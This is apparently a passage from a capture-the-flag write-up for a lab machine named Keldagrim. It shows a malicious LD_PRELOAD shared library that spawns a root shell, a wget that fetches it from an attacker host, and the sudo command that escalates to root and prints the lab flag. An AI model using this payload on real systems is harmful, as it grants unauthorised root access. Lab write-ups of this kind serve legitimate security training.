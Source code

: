 <h3>shell.c</h3>

```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
}
```

```bash
~/Keldagrim# gcc -fPIC -shared -o shell.so shell.c -nostartfiles
:~/Keldagrim# ls
rev.py  shell.c  shell.so
```

```bash
~/Keldagrim# gcc -fPIC -shared -o shell.so shell.c -nostartfiles
:~/Keldagrim# ls
rev.py  shell.c  shell.so
```

```bash
jed@ip-10-10-64-159:~/app$ wget http:/AttackIP0:8000/shell.so
...

shell.so            100%[===================>]  14.41K  --.-KB/s    in 0s      

2025-07-14 02:30:23 (166 MB/s) - \u2018shell.so\u2019 saved [14760/14760]

jed@ip-10-10-64-159:~/app$ mv shell.so /tmp
jed@ip-10-10-64-159:~/app$ cd /tmp
jed@ip-10-10-64-159:/tmp$ ls
...
shell.so
...
```


```bash
jed@ip-10-10-64-159:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /bin/ps
root@ip-10-10-64-159:/tmp# cd /root
root@ip-10-10-64-159:~# cat /root/root.txt
thm{bf2a087f833b58df233c0f24eac3aec5}
```

<br>
<br>

<h1>Actions and Objectives</h1>
<p><em>Answer the questions below</em></p>
